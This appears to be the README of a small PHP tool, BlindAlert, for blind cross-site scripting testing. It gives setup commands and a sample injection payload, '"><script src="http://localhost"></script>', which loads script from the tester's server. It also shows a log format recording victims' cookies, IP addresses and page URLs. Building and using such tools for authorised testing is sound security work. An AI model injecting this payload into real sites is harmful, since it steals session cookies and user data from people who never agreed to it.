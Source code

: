 # BlindAlert

![BlindAlert](https://preview.ibb.co/jSdgDx/blind_Alert.png)

Easy Blind Cross-site Scripting testing tool.

## Requirements

* PHP >= 5.7
* Running server or [ngrok](https://ngrok.com/) (access localhost over the internet)

## Installation

Either you can install in your local system and access through the ngrok or install into a live server.

To install BlindAlert, simply clone the repo
```
git clone https://github.com/mdhama/blindAlert.git
```

To Run on local server 
```
cd blindAlert
php -S localhost:80
```

Now open http://localhost in your browser.

## Uses

- Create a JS payload and start blindly putting into endpoints :-) 
`e.g. "><script src="http://localhost"></script>`
- When it executes sucessfully, it creates an output file within the same project directory. 

Example output file.txt: 

```
origin: http://example
host: example
url: http://example/user/posts
referrer: http://example/user
user-agent: <user-agent>
cookies: <document.cookie>
ip: <ip_addess>
```
